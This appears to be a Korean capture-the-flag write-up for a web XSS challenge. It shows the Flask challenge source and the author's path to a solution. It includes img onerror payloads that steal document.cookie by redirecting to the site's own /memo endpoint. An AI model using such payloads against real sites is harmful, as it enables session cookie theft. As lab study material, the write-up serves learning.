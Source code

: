```python
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

CSRF 문제와 형식이 유사한 듯한데, 이번엔 FLAG 값이 `value` 키의 값으로 전달되어진다. 물론 우리가 확인할 수 있는 것은 아니고, `read_url()` 함수 실행 시 인자로 전달되어지기 때문에 적당~한 스크립트로 쿠키 정보를 가져와야 할듯하다. 근데 재밌는 점은 vuln 페이지에서 스크립트 문이 안먹는다.

![image-20220621195447674](../img/image-20220621195447674.png)

분명 `param`으로 전달하여 html에는 적혔으나 실행이 안된다. 그래서 `img` 태그를 사용해보니 잘된다. 그리고 또 생각해야할 점은 어딘가에 쿠키값을 적어둬야 확인이 가능하다. 아마도 `memo()`를 이용해보면 되지 않을까?

```html
<img src="X" onerror="location.href('/memo?memo='+document.cookie);"> <!--함수 사용법 이슈-->
<img src="X" onerror="location.href='/memo?memo='+document.cookie">
```

`location.href`를 php의 `history.go()`처럼 생각해서 잠깐 헤맸는데 뭔가 이상하다 싶어서 구글링하여 찾아냈다. 생각보다 여태 풀어온 문제들 덕분인지 시도가 막혀도 막막한 느낌만 드는건 아니다. 다른 방도가 있겠지라는 생각으로 이어지는게 참 좋은 습관인 것 같다.

![image-20220621202738100](../img/image-20220621202738100.png)



근데 문제를 풀고나서야 웹사이트 이름은 XSS-1인데 문제 이름은 XSS-2 인것을 알았다.
